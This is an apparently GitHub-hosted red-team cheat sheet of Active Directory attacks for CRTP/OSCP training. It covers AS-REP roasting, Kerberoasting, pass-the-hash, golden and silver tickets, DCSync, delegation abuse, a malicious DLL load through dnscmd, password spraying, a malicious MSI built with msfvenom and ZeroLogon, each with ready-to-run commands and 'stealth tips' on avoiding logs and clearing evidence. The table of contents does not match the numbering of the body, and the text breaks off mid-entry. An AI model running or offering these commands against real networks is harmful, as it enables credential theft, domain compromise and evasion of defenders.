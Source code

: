 # 🛡️ Active Directory Attack Techniques (Red Team Edition)

This document provides a detailed walkthrough of **25 real-world Active Directory attack techniques**, optimized for **CRTP**, **OSCP**, and stealth-focused **Red Team operations**.

---

## ✅ Features

- 🔐 Realistic AD attacks (AS-REP Roasting, Kerberoasting, DCSync, etc.)
- 🧠 Understand how each technique works under the hood
- 🛠 Tools and usage examples
- 🕵️‍♂️ Red Team **stealth recommendations** for quiet execution
- 📥 Downloadable HTML [Interactive Checklist](./CRTP_OSCP_AD_CheckList.html) available

---

## 📑 Table of Contents
- [1. AS-REP Roasting](#as-rep-roasting)
- [2. Kerberoasting](#kerberoasting)
- [3. Pass-the-Hash (PtH)](#pass-the-hash-%28pth%29)
- [4. Pass-the-Ticket (PtT)](#pass-the-ticket-%28ptt%29)
- [5. DCSync Attack](#dcsync-attack)
- [6. Unconstrained Delegation](#unconstrained-delegation)
- [7. Constrained Delegation](#constrained-delegation)
- [8. Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-%28rbcd%29)
- [9. Silver Ticket](#silver-ticket)
- [10. Golden Ticket](#golden-ticket)
- [11. NTDS.dit Dump](#ntdsdit-dump)
- [12. GPP Passwords](#gpp-passwords)
- [13. LAPS Dumping](#laps-dumping)
- [14. AdminSDHolder Abuse](#adminsdholder-abuse)
- [15. ACL Abuse](#acl-abuse)
- [16. Printer Spooler Bug](#printer-spooler-bug)
- [17. Shadow Credentials](#shadow-credentials)
- [18. Certificate Template Escalation (ESC1)](#certificate-template-escalation-%28esc1%29)
- [19. Service Unquoted Path Abuse](#service-unquoted-path-abuse)
- [20. RDP Hijack](#rdp-hijack)
- [21. SAM & SYSTEM Hive Dump](#sam-%26-system-hive-dump)
- [22. LSA Secrets Dump](#lsa-secrets-dump)
- [23. RID Cycling](#rid-cycling)
- [24. Token Impersonation](#token-impersonation)
- [25. WMI Lateral Movement](#wmi-lateral-movement)
- [26. ADCS ESC1: Misconfigured Certificate Template](#adcs-esc1%3A-misconfigured-certificate-template)
- [27. ADCS ESC8: NTLM Relay to Web Enrollment](#adcs-esc8%3A-ntlm-relay-to-web-enrollment)
- [28. PetitPotam + ADCS (EFSRPC Coercion)](#petitpotam-%2B-adcs-%28efsrpc-coercion%29)
- [29. AdminSDHolder Persistence](#adminsdholder-persistence)
- [30. SID Filtering Bypass](#sid-filtering-bypass)
- [31. LDAP ACL Enumeration & Abuse](#ldap-acl-enumeration-%26-abuse)
- [32. Printer Bug (MS-RPRN Coercion)](#printer-bug-%28ms-rprn-coercion%29)
- [33. Unusual SPN Registration for Lateral Movement](#unusual-spn-registration-for-lateral-movement)
- [34. ESC2: Template with Weak ACL](#esc2%3A-template-with-weak-acl)
- [35. ESC3: Enrollable by Low-Priv Group](#esc3%3A-enrollable-by-low-priv-group)
- [36. ESC4: Manager Approval Misuse](#esc4%3A-manager-approval-misuse)
- [37. ESC5: Enroll as Machine Template](#esc5%3A-enroll-as-machine-template)
- [38. ESC6: Authenticated Users Can Enroll](#esc6%3A-authenticated-users-can-enroll)
- [39. ESC7: Vulnerable Unused Template](#esc7%3A-vulnerable-unused-template)
- [40. DCSync via GenericAll / Replication Rights](#dcsync-via-genericall--replication-rights)
- [41. Abusing GenericWrite on User Object](#abusing-genericwrite-on-user-object)
- [42. Overpass-the-Hash (Pass-the-Key)](#overpass-the-hash-%28pass-the-key%29)
- [43. RBCD via AddAllowedToAct (ACL Abuse)](#rbcd-via-addallowedtoact-%28acl-abuse%29)
- [44. Abusing Resource-Based Constrained Delegation (No Pre-auth)](#abusing-resource-based-constrained-delegation-%28no-pre-auth%29)
- [45. DCShadow Attack](#dcshadow-attack)
- [46. Golden Ticket Attack](#golden-ticket-attack)
- [47. Skeleton Key Attack](#skeleton-key-attack)
- [48. SIDHistory Injection](#sidhistory-injection)
- [49. AdminSDHolder Abuse](#adminsdholder-abuse)
- [50. Unconstrained Delegation Abuse](#unconstrained-delegation-abuse)
- [51. Kerberoasting with AES Keys](#kerberoasting-with-aes-keys)
- [52. Printer Bug + RBCD](#printer-bug-%2B-rbcd)
- [53. Kerberos SID Filtering Bypass](#kerberos-sid-filtering-bypass)
- [54. AS-REP Roasting (AES Variant)](#as-rep-roasting-%28aes-variant%29)
- [55. DNSAdmin to DC Compromise](#dnsadmin-to-dc-compromise)
- [56. Abusing ACL on GPO](#abusing-acl-on-gpo)
- [57. Shadow Credentials (Key Credential Link Attack)](#shadow-credentials-%28key-credential-link-attack%29)
- [58. Exchange PrivEsc via WriteDacl](#exchange-privesc-via-writedacl)
- [59. ReadGMSAPassword for Privilege Escalation](#readgmsapassword-for-privilege-escalation)
- [60. Kerberos Delegation Loop](#kerberos-delegation-loop)
- [61. Abuse Service Principal Name (SPN) via Resource-based Constrained Delegation](#abuse-service-principal-name-%28spn%29-via-resource-based-constrained-delegation)
- [62. Malicious GPO Deployment](#malicious-gpo-deployment)
- [63. Kerberos Constrained Delegation (KCD) Abuse](#kerberos-constrained-delegation-%28kcd%29-abuse)
- [64. Unquoted Service Path Privilege Escalation](#unquoted-service-path-privilege-escalation)

---



## 📋 Attack Descriptions


<a name="as-rep-roasting"></a>
<details>
  <summary><strong>1. AS-REP Roasting</strong></summary>

- **Purpose**: Offline cracking of user password hash  
- **Functionality**: Kerberos allows unauthenticated ticket requests for users with DONT_REQ_PREAUTH  
- **Why It's Vulnerable**: No pre-auth required, so TGT encrypted with weak password hash can be cracked  
- **How to Test**: Use `GetNPUsers.py` or `Rubeus` to extract AS-REP hashes  
```bash
# Using Impacket
GetNPUsers.py -dc-ip 192.168.1.10 domain.local/ -usersfile users.txt

# Using Rubeus
Rubeus.exe asreproast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Use known usernames only; avoid brute-forcing; low log footprint  
</details>

<a name="kerberoasting"></a>
<details>
  <summary><strong>2. Kerberoasting</strong></summary>

- **Purpose**: Offline password cracking of service accounts  
- **Functionality**: Any domain user can request service tickets for SPNs  
- **Why It's Vulnerable**: Tickets are encrypted with service account NTLM hash  
- **How to Test**: Extract SPN tickets using `GetUserSPNs.py` or `Rubeus`  
```bash
# Using Impacket
GetUserSPNs.py -request -dc-ip 192.168.1.10 domain.local/user:password

# Using Rubeus
Rubeus.exe kerberoast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Limit SPN requests; monitor for Event ID 4769  
</details>

<a name="pass-the-hash"></a>
<details>
  <summary><strong>3. Pass-the-Hash (PtH)</strong></summary>

- **Purpose**: Authenticate without knowing plaintext password  
- **Functionality**: Windows allows authentication using NTLM hash  
- **Why It's Vulnerable**: Captured hashes can be reused for lateral movement  
- **How to Test**: Use tools to authenticate with just the hash  
```bash
# SMB via wmiexec
wmiexec.py domain.local/user@192.168.1.20 -hashes <NTLM>:<NTLM>

# WinRM
evil-winrm -i 192.168.1.20 -u user -H <NTLM>
```
- **Tools**: Mimikatz, Impacket, Evil-WinRM  
- **Stealth Tips**: Use valid hashes only; avoid brute-force; monitor 4624 events  
</details>

<a name="pass-the-ticket"></a>
<details>
  <summary><strong>4. Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Authenticate using forged or stolen Kerberos tickets  
- **Functionality**: Windows lets users inject TGT/TGS tickets into session  
- **Why It's Vulnerable**: Kerberos tickets can be reused or forged  
- **How to Test**: Inject ticket using `Rubeus` or `Mimikatz`  
```bash
# Dump existing tickets
Rubeus.exe dump

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi

# Or with Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Reuse only valid, short-lived tickets; monitor ticket injection  
</details>

<a name="overpass-the-hash"></a>
<details>
  <summary><strong>5. Overpass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Generate TGT using NTLM hash instead of password  
- **Functionality**: NTLM hash used to request TGT via Kerberos  
- **Why It's Vulnerable**: Weak NTLM protection enables fake TGT generation  
- **How to Test**: Use `Rubeus` to request and inject TGT  
```bash
# Request TGT using NTLM
Rubeus.exe asktgt /user:<user> /rc4:<NTLM> /domain:<domain.local>

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi
```
- **Tools**: Rubeus, hashcat  
- **Stealth Tips**: Avoid multiple TGT requests; clean up tickets post-use  
</details>

<a name="golden-ticket"></a>
<details>
  <summary><strong>6. Golden Ticket</strong></summary>

- **Purpose**: Forge a TGT for any user with unlimited lifetime  
- **Functionality**: Built using krbtgt NTLM hash  
- **Why It's Vulnerable**: Compromise of `krbtgt` account enables full domain persistence  
- **How to Test**: Use `Mimikatz` to forge and inject a TGT  
```powershell
# Mimikatz command
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:<hash> /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use only when krbtgt hash is available; monitor 4768/4769 logs  
</details>

<a name="silver-ticket"></a>
<details>
  <summary><strong>7. Silver Ticket</strong></summary>

- **Purpose**: Forge TGS for specific service  
- **Functionality**: Uses service account NTLM hash (not krbtgt)  
- **Why It's Vulnerable**: No need to contact DC when using forged TGS  
- **How to Test**: Forge and inject TGS using Mimikatz or Rubeus  
```powershell
# Forge silver ticket
kerberos::golden /user:svcuser /domain:domain.local /sid:S-1-5-... /rc4:<NTLM> /service:cifs /target:hostname /ticket:silver.kirbi
kerberos::ptt silver.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: No DC contact makes detection harder; cleanup injected TGS  
</details>

<a name="dcsync-attack"></a>
<details>
  <summary><strong>8. DCSync Attack</strong></summary>

- **Purpose**: Extract password hashes directly from DC  
- **Functionality**: Abuse `Replicating Directory Changes` rights to mimic a DC  
- **Why It's Vulnerable**: Misconfigured ACLs grant replication rights  
- **How to Test**: Use Mimikatz `lsadump::dcsync`  
```powershell
lsadump::dcsync /domain:domain.local /user:Administrator
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Generates log 4662; use on stealthy admin accounts  
</details>

<a name="dcshadow-attack"></a>
<details>
  <summary><strong>9. DCShadow Attack</strong></summary>

- **Purpose**: Push malicious changes into AD (e.g., SIDHistory)  
- **Functionality**: Register rogue domain controller and replicate changes  
- **Why It's Vulnerable**: Abuse of replication permissions  
- **How to Test**: Use `mimikatz` DCShadow module  
```powershell
# In mimikatz
lsadump::dcshadow /object:CN=user,CN=Users,DC=domain,DC=local /attribute:Description /value:Hacked
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Hard to detect; monitor for rogue DC registrations  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>10. Shadow Credentials</strong></summary>

- **Purpose**: Persist access using alternate credentials (KeyCredential)  
- **Functionality**: Add fake key to user object for silent authentication  
- **Why It's Vulnerable**: Misconfigured ACLs allow adding `msDS-KeyCredentialLink`  
- **How to Test**: Use `Whisker` or `pyWhisker`  
```bash
# Using pyWhisker
python3 pywhisker.py --action add --target 'user@domain.local' --sid S-1-5-... --cert-pfx evil.pfx
```
- **Tools**: pyWhisker, Rubeus, adidnsdump  
- **Stealth Tips**: Extremely stealthy; nearly no log footprint  
</details>


<a name="unconstrained-delegation"></a>
<details>
  <summary><strong>11. Unconstrained Delegation</strong></summary>

- **Purpose**: Impersonate any user who authenticates to a service  
- **Functionality**: TGTs are stored in memory and can be stolen  
- **Why It's Vulnerable**: Services with unconstrained delegation store user TGTs  
- **How to Test**: Identify systems with unconstrained delegation  
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Extract TGT from memory using Rubeus
Rubeus.exe dump
```
- **Tools**: PowerView, Rubeus, Mimikatz  
- **Stealth Tips**: Avoid crashing LSASS; use on logged-in targets  
</details>

<a name="constrained-delegation"></a>
<details>
  <summary><strong>12. Constrained Delegation</strong></summary>

- **Purpose**: Impersonate a user to a specific service  
- **Functionality**: Service can request TGS on behalf of user  
- **Why It's Vulnerable**: Misconfigured S4U2Self/S4U2Proxy allows impersonation  
- **How to Test**: Abuse using S4U attack with Rubeus  
```powershell
# S4U attack using Rubeus
Rubeus.exe s4u /user:<user> /rc4:<NTLM> /impersonateuser:Administrator /msdsspn:cifs/dc.domain.local /domain:<domain>
```
- **Tools**: Rubeus  
- **Stealth Tips**: No DC contact if ticket reused; monitor 4769 logs  
</details>

<a name="resource-based-constrained-delegation"></a>
<details>
  <summary><strong>13. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Impersonate users to target machine or service  
- **Functionality**: Target object controls its own delegation settings  
- **Why It's Vulnerable**: Any user with write access to target can configure delegation  
- **How to Test**: Use `GenericWrite`/`GenericAll` to set msDS-AllowedToActOnBehalfOfOtherIdentity  
```powershell
# Using PowerView
Set-ADComputer -Identity TARGET -PrincipalsAllowedToDelegateToAccount ATTACKER$

# Using Rubeus and S4U
Rubeus.exe s4u ...
```
- **Tools**: PowerView, Rubeus, SharpHound  
- **Stealth Tips**: Clean up delegation entries post-exploitation  
</details>

<a name="printer-bug-coercion"></a>
<details>
  <summary><strong>14. Printer Bug (SpoolSample)</strong></summary>

- **Purpose**: Coerce authentication from remote machine  
- **Functionality**: Exploit MS-RPRN to trigger SMB authentication  
- **Why It's Vulnerable**: Misuse of Print Spooler to trigger outbound auth  
- **How to Test**: Use `SpoolSample` or `rpcdump`  
```bash
# SpoolSample
SpoolSample.exe <victim-ip> <attacker-ip>
```
- **Tools**: SpoolSample, Inveigh  
- **Stealth Tips**: Use with relaying setup (e.g., ntlmrelayx)  
</details>

<a name="shadow-admins"></a>
<details>
  <summary><strong>15. Shadow Admins</strong></summary>

- **Purpose**: Persistence via indirect privilege escalation  
- **Functionality**: Users granted rights over admin accounts  
- **Why It's Vulnerable**: Misconfigured ACLs allow privilege chaining  
- **How to Test**: Identify users/groups with indirect control  
```powershell
# Using PowerView
Invoke-ACLScanner | ? { $_.IdentityReference -like "*admin*" }
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Shadow paths harder to detect than DA membership  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <summary><strong>16. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persistent privilege escalation  
- **Functionality**: Changes to AdminSDHolder propagate to protected accounts  
- **Why It's Vulnerable**: Write access to AdminSDHolder object gives domain rights  
- **How to Test**: Add user to AdminSDHolder's ACL  
```powershell
# Using PowerView
Add-ADPermission -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -User attacker -ExtendedRights "All"
```
- **Tools**: PowerView, ADSI Edit  
- **Stealth Tips**: Change re-applies every 60 minutes; remove afterward  
</details>

<a name="acl-based-privesc"></a>
<details>
  <summary><strong>17. ACL-Based PrivEsc</strong></summary>

- **Purpose**: Escalate privileges using misconfigured object permissions  
- **Functionality**: WriteDACL/GenericAll enables adding membership or privileges  
- **Why It's Vulnerable**: Poor delegation of permissions  
- **How to Test**: Identify writeable objects using BloodHound or PowerView  
```powershell
# With PowerView
Invoke-ACLScanner

# Add user to group
Add-ADGroupMember -Identity "Domain Admins" -Members attacker
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Clean audit trails, remove attacker after use  
</details>

<a name="gmsa-abuse"></a>
<details>
  <summary><strong>18. gMSA Abuse</strong></summary>

- **Purpose**: Abuse Group Managed Service Account to gain lateral access  
- **Functionality**: Passwords for gMSAs are retrievable by authorized systems  
- **Why It's Vulnerable**: Misconfigured read permissions allow extraction  
- **How to Test**: Use Mimikatz or custom tools to extract gMSA password  
```powershell
# Using Mimikatz
lsadump::gmsa
```
- **Tools**: Mimikatz, ADModule  
- **Stealth Tips**: Very stealthy if done from authorized machine  
</details>

<a name="ldap-signing-downgrade"></a>
<details>
  <summary><strong>19. LDAP Signing Downgrade</strong></summary>

- **Purpose**: Downgrade secure LDAP communication for interception  
- **Functionality**: Disable signing requirements to perform MITM  
- **Why It's Vulnerable**: Default configuration allows unsigned LDAP  
- **How to Test**: Use `ntlmrelayx` with LDAP relaying  
```bash
# Relaying NTLM to LDAP
ntlmrelayx.py -t ldap://dc.domain.local --escalate-user attacker
```
- **Tools**: Impacket, Responder, ntlmrelayx  
- **Stealth Tips**: Combine with coercion attacks (e.g., PetitPotam)  
</details>

<a name="zerologon"></a>
<details>
  <summary><strong>20. Zerologon (CVE-2020-1472)</strong></summary>

- **Purpose**: Full DC compromise via Netlogon flaw  
- **Functionality**: Exploits all-zero challenge to bypass auth  
- **Why It's Vulnerable**: Flawed cryptographic implementation in Netlogon  
- **How to Test**: Use `Zerologon` PoC or `impacket` script  
```bash
# Test
python3 zerologon_tester.py dc.domain.local

# Exploit
python3 zerologon_exploit.py dc.domain.local
```
- **Tools**: Impacket, CVE PoC  
- **Stealth Tips**: Very noisy; avoid unless authorized  
</details>

<a name="dnsadmin-to-dc-compromise"></a>
<details>
  <summary><strong>21. DNSAdmin to DC Compromise</strong></summary>

- **Purpose**: Elevate privileges to SYSTEM on a Domain Controller  
- **Functionality**: DNSAdmin can load DLLs through `dnscmd`  
- **Why It's Vulnerable**: DNS server service runs as SYSTEM and loads external DLLs  
- **How to Test**: Load a malicious DLL via `dnscmd`  
```bash
dnscmd <dc> /config /serverlevelplugindll \attacker\share\malicious.dll
# Restart DNS service
sc \<dc> stop dns
sc \<dc> start dns
```
- **Tools**: dnscmd, msfvenom, smbserver.py  
- **Stealth Tips**: Clean up DLL path and logs after use  
</details>

<a name="password-spray"></a>
<details>
  <summary><strong>22. Password Spray</strong></summary>

- **Purpose**: Identify weak passwords across many users  
- **Functionality**: Attempts same password for multiple users to avoid lockout  
- **Why It's Vulnerable**: AD doesn’t detect horizontal brute force effectively  
- **How to Test**: Use CrackMapExec or Hydra  
```bash
crackmapexec smb <target> -u users.txt -p 'Password123'
```
- **Tools**: CrackMapExec, Hydra, Kerbrute  
- **Stealth Tips**: Respect lockout policy; long wait between tries  
</details>

<a name="llmnr-nbt-ns-poisoning"></a>
<details>
  <summary><strong>23. LLMNR/NBT-NS Poisoning</strong></summary>

- **Purpose**: Capture NetNTLMv2 hashes from network  
- **Functionality**: Responds to broadcast name resolution requests  
- **Why It's Vulnerable**: LLMNR/NBT-NS enabled by default  
- **How to Test**: Run Responder on local subnet  
```bash
responder -I eth0
```
- **Tools**: Responder, Hashcat  
- **Stealth Tips**: Only use when legitimate traffic exists  
</details>

<a name="golden-ticket"></a>
<details>
  <summary><strong>24. Golden Ticket</strong></summary>

- **Purpose**: Create forged TGTs to impersonate any user  
- **Functionality**: TGTs can be forged using KRBTGT hash  
- **Why It's Vulnerable**: Domain compromise gives access to KRBTGT  
- **How to Test**: Extract KRBTGT hash and forge TGT  
```powershell
# Mimikatz
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /krbtgt:<hash>
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Set realistic lifetime, timestamps; avoid reuse  
</details>

<a name="silver-ticket"></a>
<details>
  <summary><strong>25. Silver Ticket</strong></summary>

- **Purpose**: Access services without contacting DC  
- **Functionality**: TGS can be forged using service account’s NTLM hash  
- **Why It's Vulnerable**: TGS validation does not require DC communication  
- **How to Test**: Use hash to forge TGS with Mimikatz or Rubeus  
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Avoid Kerberos event logs; direct access to service  
</details>

<a name="privileged-session-hijack"></a>
<details>
  <summary><strong>26. Privileged Session Hijack</strong></summary>

- **Purpose**: Steal or reuse high-privilege token/session  
- **Functionality**: Session tokens in memory can be reused  
- **Why It's Vulnerable**: High-privilege sessions often left active  
- **How to Test**: Enumerate and steal token using Mimikatz  
```powershell
# Mimikatz
token::list
token::elevate
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid alerting interactive users  
</details>

<a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <summary><strong>27. Kerberos Unconstrained Delegation Ticket Theft</strong></summary>

- **Purpose**: Steal TGTs from systems with delegation enabled  
- **Functionality**: Attacker can extract TGT from memory after victim login  
- **Why It's Vulnerable**: Unconstrained delegation caches TGT in memory  
- **How to Test**: Wait for login, extract TGT  
```powershell
# Rubeus
Rubeus.exe dump
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Passive collection; avoid causing logon  
</details>

<a name="kerberos-over-pass-the-ticket"></a>
<details>
  <summary><strong>28. Kerberos Over Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Use forged TGT/TGS to authenticate  
- **Functionality**: Inject Kerberos ticket into current session  
- **Why It's Vulnerable**: No validation of origin of ticket  
- **How to Test**: Inject valid TGT  
```powershell
# Rubeus or Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Use short lifetime; remove ticket after use  
</details>

<a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <summary><strong>29. Kerberos RC4 Ticket Renewal</strong></summary>

- **Purpose**: Extend lifetime of Kerberos tickets  
- **Functionality**: Re-request new ticket using valid one  
- **Why It's Vulnerable**: Reuse of hash for encryption allows forging  
- **How to Test**: Use RC4 key with Rubeus  
```powershell
# Rubeus
Rubeus.exe renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Limit renewals; use realistic renewal times  
</details>

<a name="delegation-chaining"></a>
<details>
  <summary><strong>30. Delegation Chaining</strong></summary>

- **Purpose**: Pivot through multiple delegation relationships  
- **Functionality**: Abuse chained constrained delegation  
- **Why It's Vulnerable**: Hard to audit complex chains  
- **How to Test**: Enumerate delegation paths using BloodHound  
```bash
# BloodHound
Collect data → Analyze delegation edges
```
- **Tools**: BloodHound, Rubeus  
- **Stealth Tips**: Use with known chains only; avoid failed impersonation  
</details>


<a name="kerberos-resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>31. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Elevate privileges by controlling another computer’s delegation rights  
- **Functionality**: Modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute  
- **Why It's Vulnerable**: Computers can be delegated rights to impersonate users  
- **How to Test**: Create a computer account, set RBCD on target, and impersonate  
```powershell
# Powermad
New-MachineAccount -MachineAccount "owned$" -Password "Password123!"
Set-ADComputer 'TARGET' -PrincipalsAllowedToDelegateToAccount 'owned$'
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Avoid AD logs; use short-lived account  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>32. Shadow Credentials</strong></summary>

- **Purpose**: Persist access by planting alternate credentials  
- **Functionality**: Abuse msDS-KeyCredentialLink attribute  
- **Why It's Vulnerable**: Weak ACLs allow editing sensitive attributes  
- **How to Test**: Inject certificate or key credential  
```powershell
# Whisker or pyWhisker
pywhisker add -u targetuser -d domain -k c:\cert.pfx
```
- **Tools**: pyWhisker, Certify  
- **Stealth Tips**: Avoid changing primary credentials; clean up afterward  
</details>

<a name="acl-based-privilege-escalation"></a>
<details>
  <summary><strong>33. ACL-Based Privilege Escalation</strong></summary>

- **Purpose**: Abuse weak ACLs to gain privileges  
- **Functionality**: Modify rights on sensitive objects (e.g., user, computer)  
- **Why It's Vulnerable**: Delegation often misconfigured  
- **How to Test**: Enumerate ACLs using BloodHound  
```bash
# SharpHound/BloodHound
Collect ACL data → Analyze Effective Permissions
```
- **Tools**: BloodHound, PowerView, ADACLScanner  
- **Stealth Tips**: Use inherited ACLs stealthily; revert after use  
</details>

<a name="dcsync"></a>
<details>
  <summary><strong>34. DCSync Attack</strong></summary>

- **Purpose**: Dump password hashes for any domain user  
- **Functionality**: Mimics domain controller behavior to replicate secrets  
- **Why It's Vulnerable**: User with Replication rights can pull hashes  
- **How to Test**: Use Mimikatz with DCSync  
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:krbtgt
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Target only necessary users; avoid dumping all  
</details>

<a name="unquoted-service-path"></a>
<details>
  <summary><strong>35. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit unquoted service path to execute malicious binary as SYSTEM  
- **Functionality**: Service with unquoted path and spaces can execute attacker binary  
- **Why It's Vulnerable**: OS treats path as space-delimited and searches left-to-right  
- **How to Test**: Place executable in one of the interpreted paths  
```powershell
# Identify service
wmic service get name,pathname,startmode | findstr /i "Auto"
```
- **Tools**: PowerUp, sc.exe  
- **Stealth Tips**: Restart service quietly; clean up dropped binary  
</details>

<a name="alwaysinstall-elevated-misconfiguration"></a>
<details>
  <summary><strong>36. AlwaysInstallElevated Misconfiguration</strong></summary>

- **Purpose**: Gain SYSTEM privileges via MSI installer  
- **Functionality**: Exploit policy that allows non-admins to run MSIs as SYSTEM  
- **Why It's Vulnerable**: Admins leave AlwaysInstallElevated registry key set  
- **How to Test**: Check registry keys and run malicious MSI  
```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
msfvenom -p windows/exec CMD=calc.exe -f msi > evil.msi
msiexec /quiet /qn /i evil.msi
```
- **Tools**: msfvenom, msiexec  
- **Stealth Tips**: Rename MSI, clean up registry traces  
</details>

<a name="service-permissions-abuse"></a>
<details>
  <summary><strong>37. Service Permissions Abuse</strong></summary>

- **Purpose**: Modify service config to execute code as SYSTEM  
- **Functionality**: Misconfigured permissions allow binary path modification  
- **Why It's Vulnerable**: Services run as SYSTEM and permissions often too broad  
- **How to Test**: Use accesschk to find writable services, modify path  
```bash
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config <service> binpath= "cmd.exe /c calc.exe"
```
- **Tools**: sc.exe, accesschk.exe  
- **Stealth Tips**: Restore original path; clean artifacts  
</details>

<a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>38. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain persistence through WMI triggers  
- **Functionality**: Subscribes to system events and executes payload  
- **Why It's Vulnerable**: WMI is deeply integrated and hard to audit  
- **How to Test**: Create a permanent event subscription  
```powershell
# PowerShell example
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter ...
```
- **Tools**: PowerShell, WMI Explorer  
- **Stealth Tips**: Name events benignly; delete after use  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <summary><strong>39. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persist elevated privileges via protected groups template  
- **Functionality**: AdminSDHolder replicates ACLs to high-privilege users every 60 min  
- **Why It's Vulnerable**: Modifying AdminSDHolder can give you rights over domain admins  
- **How to Test**: Add self as full control in ACLs of AdminSDHolder  
```powershell
Set-ADACL -Target "CN=AdminSDHolder,CN=System,DC=domain,DC=local" ...
```
- **Tools**: PowerView, ADSIEdit  
- **Stealth Tips**: Remove ACLs after use; high risk  
</details>

<a name="domain-controller-sync-via-rbcd"></a>
<details>
  <summary><strong>40. Domain Controller Sync via RBCD</strong></summary>

- **Purpose**: Gain full replication rights and extract hashes  
- **Functionality**: Combines RBCD + DCSync to replicate secrets  
- **Why It's Vulnerable**: If RBCD set on DC object, DCSync becomes possible  
- **How to Test**: Create computer, set delegation to DC, and DCSync  
```powershell
# Powermad + Rubeus
New-MachineAccount ...
Set-RBCD on DC → Use Rubeus DCSync
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Use temporary objects; clear evidence  
</details>


<a name="netlogon-zero-logon-cve-2020-1472"></a>
<details>
  <summary><strong>41. Netlogon ZeroLogon (CVE-2020-1472)</strong></summary>

- **Purpose**: Gain domain admin access by exploiting Netlogon protocol flaw  
- **Functionality**: Sends crafted Netlogon messages with zeroed fields  
- **Why It's Vulnerable**: Cryptographic flaw allows spoofing DC credentials  
- **How to Test**: Run Python PoC to authenticate as DC  
```bash
python3 zerologon_tester.py dc-name dc-ip
```
